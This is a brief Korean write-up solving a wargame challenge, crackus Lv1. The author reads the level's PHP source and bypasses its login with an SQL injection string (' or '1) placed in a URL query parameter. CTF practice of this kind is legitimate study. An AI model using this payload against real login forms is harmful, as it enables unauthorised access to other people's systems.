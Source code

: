 <img width="184" alt="스크린샷 2020-01-09 오후 4 51 47" src="https://user-images.githubusercontent.com/54495632/72054083-a7238080-330b-11ea-96d7-8bc7532c230e.png">

crackus Lv1. 

우유?

<img width="725" alt="스크린샷 2020-01-09 오후 4 52 04" src="https://user-images.githubusercontent.com/54495632/72054142-c3bfb880-330b-11ea-9d59-c777abdb5803.png">

클릭하니 php 소스코드를 보여준다.

딱히 필터링 조건도 별로 없고 아이디에도 admin 이여야 된다는 조건도 없어서 다음과 같은 쿼리문을

생각했다.

SELECT id FROM play_sql01 WHERE id= ' ' or '1' and pw=' ' or '1'

http://crackus.jeju.kr/chall01.php?id=&pw=%27%20or%20%271#

<img width="504" alt="스크린샷 2020-01-09 오후 6 07 34" src="https://user-images.githubusercontent.com/54495632/72054525-7c85f780-330c-11ea-8f8f-a89b7caa61d2.png">

<img width="735" alt="스크린샷 2020-01-09 오후 6 19 13" src="https://user-images.githubusercontent.com/54495632/72054562-90c9f480-330c-11ea-8848-77a2b28543c5.png">

해결 ^*^